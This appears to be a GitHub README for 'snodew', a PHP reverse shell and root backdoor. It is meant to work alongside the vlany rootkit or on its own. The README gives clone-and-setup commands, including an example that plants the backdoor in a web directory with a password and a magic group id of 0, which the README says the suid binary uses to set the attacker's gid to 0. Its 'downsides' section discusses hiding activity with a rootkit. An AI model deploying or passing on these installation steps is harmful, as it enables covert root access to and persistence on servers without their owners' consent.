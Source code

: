 # snodew
*snodew is a PHP reverse shell which uses a small suid binary to escalate privileges on connection*</br></br>snodew is made mainly to work alongside [vlany](https://github.com/mempodippy/vlany) but can also be setup as a regular root backdoor

## usage
```
git clone https://github.com/mempodippy/snodew.git
cd snodew/
./setup.sh [install dir] [password] [hidden extended attribute] [magic gid]
```

### example usage for regular (non-vlany infected) systems
```
cd /tmp
git clone https://github.com/mempodippy/snodew.git
cd snodew/
./setup.sh /var/www/html/blog sexlovegod X 0 # 'X' and '0' since extended attribute doesn't really matter,
                                             # and our suid binary will set our gid to 0
```
<img src="http://i.imgur.com/YneuIpp.png"/></br>
*Result of successful setup*

<img src="http://i.imgur.com/AwlnKt6.png"/></br>
*Result after following instructions given on our new page*

## downsides
 * sh process spawned from service user is visible
 * if not being used alongside some kind of rootkit, everything you do is visible
 * it's only a reverse shell
 * if using this with vlany, the only user able to see the new files is the service user. this could prove a vulnerability - just su to the user and you can see snodew's files easily
